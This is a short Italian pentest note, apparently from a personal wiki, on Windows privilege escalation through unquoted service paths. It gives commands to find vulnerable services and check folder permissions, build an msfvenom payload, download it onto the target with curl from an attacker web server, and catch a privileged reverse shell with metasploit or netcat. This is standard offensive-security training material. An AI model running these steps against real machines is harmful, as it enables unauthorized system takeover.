


Unquoted Service Path
Attacco che può essere effettuato solo dopo aver trovato delle credenziali e avuto accesso ad una macchina.
- 1) 1) Identifichiamo i servizi con startup automatico usando il seguente comando powershell:
Get-WmiObject -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select Name,DisplayName,StartMode,PathName
- 2) 2) Se troviamo un servizio con un path senza apici come il seguente:

possiamo verificare i dettagli del servizio e la possibilità di scrivere in quella cartella. Lo facciamo attraverso cmd:
sc qc “SERVIZIO”
icacls “C:\PATH”
- 3) 3) Se la risposta è positiva, accediamo alla cartella con l'eseguibile.
- 4) 4) Possiamo provare ad effettuare l'attacco (che potrebbe permetterci un privilege scalation):
creiamo un eseguibile il cui nome inizierà con le prime lettere del nome della Directory. Es:

Per creare il payload possiamo usare msfvenom.
Una volta creato, lo carichiamo sulla macchina target con python -m http.server 8080 lato attacker, e curl -O http://MY-IP/FILE.exe lato target.
- 5) 5) Avviamo il listener (possiamo usare metasploit con exploit/multi/handler inserendo i dati payload, lhost e lport; oppure possiamo semplicemente usare netcat con nc -nlvp PORT)
- 6) 6) Se tutto è andato liscio, al successivo avvio della macchina target, dovremmo avere una shell privilegiata.